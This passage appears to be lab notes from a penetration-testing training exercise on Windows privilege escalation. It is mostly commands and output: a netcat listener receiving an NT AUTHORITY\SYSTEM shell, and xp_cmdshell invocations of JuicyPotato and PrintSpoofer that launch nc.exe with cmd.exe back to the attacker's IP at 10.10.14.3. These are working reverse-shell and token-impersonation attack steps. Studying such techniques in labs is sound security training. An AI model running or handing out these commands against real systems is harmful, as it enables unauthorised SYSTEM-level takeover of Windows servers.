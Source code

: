 5) Catching SYSTEM Shell

```
sudo nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 50332
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami

whoami
nt authority\system


C:\Windows\system32>hostname

hostname
WINLPE-SRV01
```

6) Escalating Privileges Using JuicyPotato

Download the JuicyPotato.exe binary and upload this and nc.exe to the target server

```
xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *

output                                                                             

--------------------------------------------------------------------------------   

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 53375                               
                                                                            
[+] authresult 0                                                                   
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM                                                                                                    
[+] CreateProcessWithTokenW OK                                                     
[+] calling 0x000000000088ce08
```

## PrintSpoofer and RoguePotato

1) Escalating Privileges using PrintSpoofer

```
xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"

output                                                                             

--------------------------------------------------------------------------------   

[+] Found privilege: SeImpersonatePrivilege                                        

[+] Named pipe listening...                                                        

[+] CreateProcessAsUser() OK                                                       

NULL 
```

